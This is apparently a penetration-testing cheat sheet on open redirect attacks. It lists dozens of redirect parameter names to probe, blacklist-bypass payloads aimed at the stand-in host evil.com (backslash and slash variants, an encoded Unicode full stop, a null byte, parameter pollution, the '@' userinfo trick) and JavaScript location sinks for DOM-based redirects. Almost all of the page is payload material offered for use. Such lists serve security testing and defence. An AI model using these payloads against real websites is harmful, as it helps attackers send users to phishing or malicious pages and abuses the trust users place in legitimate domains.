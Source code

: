 ```yaml
---
title: Open redirect
description: Attacker redirects a user to an external URL
---
```

## Exploit
### Common injection parameters
```url
/
?next
?url
?target
?rurl
?dest
?destination
?redir
?redirect_uri
?redirect_url
?redirect
/redirect/
/cgi-bin/redirect.cgi?
/out/
/out?
?view
/login?to
?image_url
?go
?return
?returnTo
?return_to
?checkout_url
?continue
?return_path
success
data
qurl
login
logout
ext
clickurl
goto
rit_url
forward_url
@https://
forward
pic
callback_url
jump
jump_url
click?u
originUrl
origin
Url
desturl
u
page
u1
action
action_url
Redirect
sp_url
service
recurl
j?url
url//
uri
u
allinurl:
q
link
src
tc?src
linkAddress
location
burl
request
backurl
RedirectUrl
Redirect
ReturnUrl
```
### Bypass blacklist
`http` blacklist bypass:

```
// evil.com
```

`//` blacklist bypass:
```url
https:evil.com
```
Using `//` to bypass `//` blacklisted keyword (Browsers see `//` as `//`)
```url
\/\/evil.com/
/\/evil.com/
```
Using `/` to bypass:
```url
/\evil.com
```

URL encode Unicode full stop 。
```url
//evil%E3%80%82com
```

Null byte
```url
//evil%00.com
```
Parameter pollution
```url
?next=whitelisted.com&next=evil.com
```
Using "@" character, browser will redirect to anything after the "@"
```url
http://www.theirsite.com@evil.com/
```
### DOM based
View the page source. Common sink for open redirect:
```js
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```
